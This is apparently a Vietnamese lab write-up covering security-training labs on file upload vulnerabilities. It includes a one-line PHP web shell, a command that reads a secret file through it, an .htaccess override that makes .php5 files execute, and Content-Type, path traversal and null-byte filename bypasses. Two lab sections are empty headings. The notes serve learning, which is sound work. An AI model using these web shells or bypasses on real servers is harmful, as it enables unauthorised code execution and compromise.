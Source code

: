# File Upload
## Labs

### LAB: Remote code execution via web shell upload
**Yêu cầu**: Lab có lỗ hổng ở chức năng upload ảnh. Nhiệm vụ: tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret` rồi nộp bí mật đó. Đăng nhập: `wiener:peter`

**Thực hiện**
- Upload file shell lên là thành công.
- Nội dung shell:
    ```
    <?php system($_GET['cmd']); ?>
    ```
- Upload thành công giờ thì tìm xem file đó ở đâu. Khi mà UI được load thì ảnh sẽ được load theo ta có thể viewsource để xem.
![alt text](image-1.png)
- Đó giờ thì thực hiện truy cập.
![alt text](image-2.png)
___

### LAB: Web shell upload via Content-Type restriction bypass
**Yêu cầu**: Lab có lỗ hổng ở chức năng upload ảnh. Nhiệm vụ: tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret` rồi nộp bí mật đó. Đăng nhập: `wiener:peter`

**Thực hiện**
- Upload file shell lên và tùy chỉnh content-type thành image/jpeg.
![alt text](image.png)
`GET fulab1.php?cmd=cat%20/home/carlos/secret` để đọc thông tin

**Vấn đề**
Chỉ chặn bằng việc kiểm tra header Content-type -> Có thể bypass dễ dàng
___

### LAB: Web shell upload via path traversal
**Yêu cầu**: Lab có lỗ hổng upload ảnh, nhưng server chặn thực thi file. Nhiệm vụ: khai thác lỗ hổng phụ để bypass, tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó. Đăng nhập: `wiener:peter`.

**Thực hiện**
- Upload shell bình thường và chỉnh sửa lại gói tin upload đó.
Thay đổi `filename` và xem kết quả đầu ra. Thông thường việc encode và decode url là do server cài đặt (APACHE). 
![alt text](image-3.png)
- Giờ thì truy cập vào file shell.
![alt text](image-4.png)

**Vấn đề**
Trong bài lab khi upload shell lên thì shell ở thư mục `files/avatars` và thư mục này không cho phép thực thi shell -> Cho nên ta tìm cách upload ở thư mục khác có quyền thực thi
>Tips 💡
Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved.
___

### LAB: Web shell upload via extension blacklist bypass
**Yêu cầu**: Lab có lỗ hổng upload ảnh, chặn một số phần mở rộng file nhưng có lỗi trong cấu hình blacklist. Nhiệm vụ: bypass blacklist, tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó. Đăng nhập: `wiener:peter`.

**Thực hiện**
- Ở các phiên bản cũ APACHE thì cho phép trong thư mục tồn tại 1 file `.htaccess`. File này có vai trò ghi đè các cấu hình lên chính thư mục chứa nó.
Vì thế trong bài này chúng ta cần upload 1 file `.htaccess` để ghi đè cấu hình xử lí các file có extension `php...`.
- File `.htaccess` có nội dung như sau:
    ```
    AddType application/x-httpd-php .php5
    ```
- Ban đầu trước khi có file cấu hình
![alt text](image-5.png)
- Sau khi upload file ghi đè cấu hình
![alt text](image-6.png)

**Vấn đề**
Các file extension là `php...` thì không được thực thi mà được đưa ra dạng plaintext. Vấn đề này là các định nghĩa cấu hình server.
___

### LAB: Web shell upload via obfuscated file extension
**Yêu cầu**: Lab có lỗ hổng upload ảnh, chặn một số phần mở rộng file nhưng có thể bypass bằng kỹ thuật obfuscation. Nhiệm vụ: lợi dụng obfuscation để tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó.

**Thực hiện**
- Cách tấn công ở đây là nullbyte injection. Ở phiên bản cũ PHP 5.3.x đổ xuống, ở bước kiểm tra `filename` phía backend sẽ kiểm tra chuỗi sau `.` cuối cùng có phải là `jpg` hay `png`. Còn khi chuẩn hóa vào đường dẫn thì PHP chỉ kiểm tra đến kí tự cuối cùng trước `null`( này cũng là do PHP được code bởi C mà đọc chuỗi trong C thì dừng khi gặp kí tự `null` đầu tiên)
- `filename="a.php%00.jpg"`
![alt text](image-7.png)
- Thực thi shell
![alt text](image-8.png)

**Vấn đề**
Server chặn các gói tin upload không phải định dạng ảnh bằng việc check extension của file. Với các extension khác nhau thì server sẽ xử lí khác nhau ( ảnh thì hiện thị ra ảnh, nếu file php thì sẽ thực thi). Tuy nhiên vì không up được file php lên mà chỉ up file ảnh cho nên hệ thống xử lí các file đó dưới định dạng ảnh.
___

### LAB: Remote code execution via polyglot web shell upload
**Yêu cầu**
**Thực hiện**
**Vấn đề**
___

### LAB: Web shell upload via race condition
**Yêu cầu**
**Thực hiện**
**Vấn đề**

